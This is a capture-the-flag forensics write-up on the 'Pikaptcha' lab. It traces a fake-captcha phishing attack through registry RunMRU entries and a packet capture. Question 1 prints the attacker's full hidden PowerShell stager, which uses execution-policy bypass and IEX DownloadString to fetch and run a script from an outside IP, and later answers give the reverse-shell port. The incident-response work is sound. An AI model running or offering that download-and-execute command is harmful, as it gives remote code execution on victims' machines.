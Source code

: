 # **Pikaptcha Writeup**
![image](https://github.com/user-attachments/assets/1dc58453-e983-4bfc-88a0-72008fbe5618)

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

**Tools:**
  - Registry Explorer
  - Wireshark

**Learned:**
  - Static Malware Analysis
  - Network Forensics
  - Log analysis

### **Question 1**
It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

Initial analysis we are given a pcap file, and an image of a drive. My initial thought when answering this is since we are wanting to see the command using the ‘NTUSER.DAT’ and use Registry Explorer so we can evaluate this users activity. What comes to my mind is the RunMRU key which shows the history of commands executed by the user. This is what makes most logical sense to me. Loading the ntuser.dat file into registry explorer and searching the RunMRU key I found this peculiar PowerShell command that seems to be the payload we are after. Explaining the payload

- PowerShell: tells it to use PowerShell
- NoP: tells PowerShell to not load the user profile
- NonI: runs the script in a non-interactive mode requiring no user input
- W Hidden: hides the PowerShell window
- Exec Bypass: bypasses PowerShell execution policy
- Command: tells it the following string to execute it as a command
- IEX: invoke expression PowerShell command let that will execute the string expression
- New-Object Net.WebClient: creates a new instance of .NET WebClient
- DownloadString: this downloads the file from the given URL

![image](https://github.com/user-attachments/assets/a0b7f077-2dc7-4400-9469-c3c205f19ba0)

Answer: powershell -NoP -NonI -W Hidden -Exec Bypass -Command “IEX(New-Object Net.WebClient).DownloadString(‘http://43.205.115.44/office2024install.ps1')"

### **Question 2**
At what time in UTC did the malicious payload execute?

This can be found next to where we found the payload which shows when it was executed

![image](https://github.com/user-attachments/assets/cb2c24af-0b83-4006-8134-4ca958e1080b)

Answer: 2024–09–23 05:07:45
### **Question 3**
The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

I believe this is where the pcap will come in handy… since we know the file was downloaded over the http protocol and we have the IP I created a filter to find the file then I exported the object within Wireshark and ran this command

![image](https://github.com/user-attachments/assets/761deb0c-b334-4694-8376-84b4ce95a5e3)

Answer: 579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE
### **Question 4**
To which port did the reverse shell connect?

Since this is wanting to understand the network connection I beleive using the packet capture will give us the detail we are looking for. going back to my earlier filter I am just filtering on the IP address of the malicious site and scrolling through the packet capture file I see it makes a connection over port 6969 shortly after it was downloaded

![image](https://github.com/user-attachments/assets/9d2b9233-9f34-4466-b14d-44d2a7949478)

Answer: 6969
### **Question 5**
For how many seconds was the reverse shell connection established between C2 and the victim’s workstation?

Using the packet capture… I identified when the connection was first made. I will follow the trail to determine when it stopped to help. Since we know the IP and just identified the port I will add that to my filter to help boil the results down: ip.addr == 43.205.115.44 && tcp.port == 6969

![image](https://github.com/user-attachments/assets/5b4bf9ca-e188-4159-9a24-adae3e66fa26)

6 mins and 43 seconds that it was connected. Converting that to seconds it is 403 seconds

Answer: 403
### **Question 6**
Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim’s clipboard?

Here I am thinking looking at the PowerShell script it self but that doesn't make sense after rethinking this. I think since this is talking about the captcha that is web based. Therefore, this is going to be best found in the packet capture. Continuing to filter on the adversary Ip I added http to my filter and since its http its sent in the clear. As I expected I found the malicious function which has the literal payload we found earlier

![image](https://github.com/user-attachments/assets/69a70701-e167-42d1-a75d-75ef5b94aa11)

Answer: stageClipboard
